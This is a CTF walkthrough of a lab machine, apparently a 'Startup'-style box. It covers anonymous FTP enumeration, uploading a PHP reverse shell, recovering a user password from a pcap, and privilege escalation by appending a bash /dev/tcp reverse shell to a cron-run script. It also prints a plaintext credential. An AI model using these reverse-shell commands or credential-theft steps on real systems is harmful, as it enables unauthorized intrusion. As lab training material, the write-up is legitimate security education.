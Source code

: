 ```yaml
---
sticker: emoji//1f336-fe0f
---
```

# ENUMERATION



## OPEN PORTS

Let's begin with a simple Nmap scan:

![](Pasted image 20241023164431.png)

```ad-hint
OPEN PORTS:

- 21: ftp (Anonymous login allowed)
- 22: ssh
- 80: http
```

Let's log in FTP since anonymous login is allowed:

![](Pasted image 20241023164907.png)

We found this files, let's download them all using `mget *`

Let's read `notice.txt`:

![](Pasted image 20241023165101.png)

Seems like `maya` could be an user for ssh

If we try to use `steghide` in the important.jpg we get this:

![](Pasted image 20241023165247.png)
Let's try to change the hex for the file into a jpg, and try again:

![](Pasted image 20241023165422.png)
![](Pasted image 20241023165648.png)

Couldn't get anything useful, so, let's start with the web fuzzing and enumeration
## FUZZING

Using FFUF to fuzz the website, I found this directory:

![](Pasted image 20241023164544.png)

Let's visit the website and try to enumerate it further: 

![](Pasted image 20241023165753.png)
## SOURCE CODE

![](Pasted image 20241023165822.png)
# EXPLOITATION


## FILES DIRECTORY

![](Pasted image 20241023165853.png)

Seems like we could exploit the ftp to upload files into the server, we could try uploading a [[MOST COMMON REVERSE SHELLS|reverse shell]] for this CTF, I uploaded a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):



![](Pasted image 20241023174700.png)

Nice, let's send the reverse shell and get our connection:


![](Pasted image 20241023174758.png)

Once I established the connection, I stabilized my shell using the [[STABLE SHELL|stable shell tricks]]

![](Pasted image 20241023174947.png)

Nice, now we have an stable shell, let's get our flags and escalate privileges.


# PRIVILEGE ESCALATION

Before trying to escalate privileges, we are able to read the recipe.txt file and it says this:

![](Pasted image 20241023175629.png)

So, we got our first answer, let's try to read the home directory:

![](Pasted image 20241023175658.png)


If we try to `cd` to Lennie home, permission is denied, but now, we can try other escalation vectors, for example, if we use linpeas, we are able to see we have 2 suspicious folder in root:

```ad-note
[+] Unexpected folders in root 
/incidents /data
```

Let's read the contents of both files:

![](Pasted image 20241023180403.png)

We got a `.pcapng` file, we can analyze it with wireshark, let's copy it to `/var/www/html/files/ftp` and download it to our machine:

![](Pasted image 20241023180944.png)
![](Pasted image 20241023180951.png)


Now that we filtered tcp in wireshark, we can follow the tcp stream for the following:

![](Pasted image 20241023182634.png)

If we follow the stream, we are able to see this:

![](Pasted image 20241023182732.png)

Seems like we got the password for Lennie:

```ad-important
`lennie:c4ntg3t3n0ughsp1c3`
```

![](Pasted image 20241023182848.png)
We are in, now, we are able to read the `user.txt`

If we try `sudo -l`, lennie may not run sudo on startup, let's use the other techniques from [[BASIC PRIVESC IN LINUX|linux privesc]]

After trying all that, nothing useful came, but, in the lennie home, we found a useful directory called `/scripts` 
![](Pasted image 20241023183424.png)
I found a planner.sh and startup_list.txt, second file did not have anything useful, but first file, had this:


![](Pasted image 20241023183735.png)

A `/etc/print.sh` file, we can write on it, let's write a reverse shell on it:

```ad-important
shell: `echo "/bin/bash -i >& /dev/tcp/10.6.34.159/1234 0>&1" >> /etc/print.sh`
```

Since planner.sh runs every minute, we only need to wait a minute with out netcat set on to get the shell:

![](Pasted image 20241023184044.png)

And just like that, we finished the machine:

![](Pasted image 20241023184153.png)

Gg!

